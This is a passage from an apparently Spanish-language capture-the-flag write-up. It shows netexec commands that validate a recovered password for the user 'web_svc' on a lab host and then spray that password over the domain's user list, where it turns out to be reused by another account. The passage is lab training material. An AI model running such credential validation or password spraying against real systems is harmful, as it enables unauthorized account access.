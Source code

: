 <figure><img src="../../../.gitbook/assets/2566_vmware_KZtbOK7N1A.png" alt=""><figcaption></figcaption></figure>

Verificaremos que las credenciales son válidas para el usuario **web\_svc** a través de **netexec**.

```bash
nxc smb 10.10.11.129 -u 'web_svc' -p '@3ONEmillionbaby'
```

<figure><img src="../../../.gitbook/assets/2567_vmware_NaBIY60v2k.png" alt=""><figcaption></figcaption></figure>

## SMB Password Spray Attack (Netexec)

Procederemos a realizar un **Password Spray Attack** con la contraseña validada anteriormente sobre la lista de usuarios del dominio que disponemos para verificar si la contraseña es reutilizada en algún otro usuario.

Verificamos que efectivamente el usuario (edgar.jacobs) dispone de la misma contraseña.

```bash
nxc smb 10.10.11.129 -u users.txt -p '@3ONEmillionbaby' --continue-on-success
```

<figure><img src="../../../.gitbook/assets/2568_vmware_pngZSds6Td.png" alt=""><figcaption></figcaption></figure>
